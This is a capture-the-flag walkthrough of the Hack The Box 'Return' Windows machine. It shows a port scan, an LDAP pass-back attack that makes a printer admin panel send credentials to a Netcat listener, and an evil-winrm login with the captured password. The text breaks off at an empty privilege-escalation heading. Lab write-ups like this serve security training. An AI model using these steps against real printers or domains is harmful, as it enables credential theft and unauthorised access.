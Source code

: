 # Box: Return
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.88.241 -p- -v -T4```

```
Nmap scan report for 10.129.88.241
Host is up (0.42s latency).
Not shown: 65458 closed tcp ports (reset), 51 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-14 12:22:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
50865/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/14%OT=53%CT=1%CU=43018%PV=Y%DS=2%DC=T%G=Y%TM=652A84
OS:2C%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=101%TI=I%CI=I%II=I%SS=S%TS
OS:=U)SEQ(SP=105%GCD=1%ISR=101%TI=I%CI=RI%II=I%SS=S%TS=U)SEQ(SP=105%GCD=1%I
OS:SR=101%TI=RD%CI=I%II=I%TS=U)SEQ(SP=105%GCD=1%ISR=101%TI=RD%CI=RI%II=I%TS
OS:=U)SEQ(SP=105%GCD=2%ISR=101%TI=RD%CI=I%II=I%TS=U)OPS(O1=M53ANW8NNS%O2=M5
OS:3ANW8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53ANNS)WIN(W1=FFFF%W
OS:2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M53ANW
OS:8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y
OS:%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR
OS:%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF
OS:=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80
OS:%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-14T12:24:21
|_  start_date: N/A
|_clock-skew: 18m33s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   436.16 ms 10.10.16.1
2   231.29 ms 10.129.88.241

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 14 13:06:04 2023 -- 1 IP address (1 host up) scanned in 2869.49 seconds
```
From our scan we have quite a number of ports opened. We\ll start our enumeration today from port 80


# Enumeration(Port 80)

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/64f03f1e-6136-4c05-afb4-b1a015eae14a)

We get this HTB Printer Admin Panel

Click on "Settings", you'll see this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7d4a38d9-2c47-4c16-9eee-ab20c042f988)

We can perform something called ```LDAP Pass-back``` attack against this printer. This is a common attack against network devices, such as printers. Lets exploit this hehe


# Exploitation

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/909ef243-ec00-408a-96d2-848ec437d8e5)

In this attack we can modify this server address to our IP, then we'll get the printer to connect to us instead, which would disclose the credentials. To do this, let's use a simple Netcat listener to test if we can get the printer to connect to us. Since the default port of LDAP is 389, we can use the following command

command:```nc -lvp 389```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a9a8bd17-12c9-4120-9330-6641225a25d3)

Now, lets go back to the webpage and try to update the settings

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ef37a2ca-dfcd-43bf-a09e-e431cfe2e9a3)

Checking our listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/24c3a85f-51a8-4d3e-b083-86f0db593b77)

We were able to successfully capture the creds hehe😎.

Now lets connect to this using ```evul-winrm```.

command:```evil-winrm -u svc-printer -i 10.129.88.241 -p '1edFg43012!!'```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/83d6542b-65ff-4919-bfe8-18eb19a732ae)

soft!!😂. Lets go ahead to escalate our privileges



# Privilege Escalation








































